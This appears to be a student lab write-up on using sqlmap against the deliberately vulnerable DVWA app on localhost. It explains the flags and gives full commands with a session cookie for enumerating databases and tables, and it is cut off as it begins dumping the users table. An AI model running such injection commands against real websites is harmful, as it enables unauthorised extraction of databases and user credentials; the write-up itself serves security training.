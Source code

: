 5. Get information about all available databases


![image](https://github.com/user-attachments/assets/50a4a548-b017-4cf1-9a9c-c3cde8af9d2d)

Get cookie value of website: PHPSESSID=8i0tfhbnhtb8oe03hmukldr8n3

- -u: This option specifies the target URL that sqlmap will test for SQL injection vulnerabilities.

- --cookie: This option allows you to provide specific cookies that should be sent along with the request. 

- --data: This option is used to send data in a POST request.
- --dbs:This option tells sqlmap to enumerate the databases on the server if an SQL injection vulnerability is detected. It attempts to retrieve a list of all databases present in the database management system.

```bash
sqlmap -u "http://localhost:8080/vulnerabilities/sqli" --cookie="PHPSESSID=8i0tfhbnhtb8oe03hmukldr8n3; security=medium " --data="id=1&Submit=Submit" --dbs
```

![image](https://github.com/user-attachments/assets/0a9fd479-4d89-43ba-9f3a-56db673d3400)

Return 2 available databases named : dvwa and information_schema


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

## 1. Choice Database is dvwa and Use sqlmap to get table 

-D: This option specifies the database name that sqlmap should target.
--tables:
This option tells sqlmap to enumerate the tables within the specified database (in this case, dvwa). If the dvwa database is found and accessible, sqlmap will retrieve and display a list of its tables.


```bash
sqlmap -u "http://localhost:8080/vulnerabilities/sqli" --cookie="PHPSESSID=8i0tfhbnhtb8oe03hmukldr8n3; security=medium " --data="id=1&Submit=Submit" --batch -D dvwa --tables
```



![image](https://github.com/user-attachments/assets/13a09125-e859-4705-8e9c-50f30622f3be)

Return 2 tables named : guestbook and users

## 2. Choice Database is Users and  use sqlmap to get  users information


-T: Specifies the target table to operate on.
--dump:
This option tells sqlmap to extract and display the contents of the specified table (users). It retrieves all rows and columns from the users table

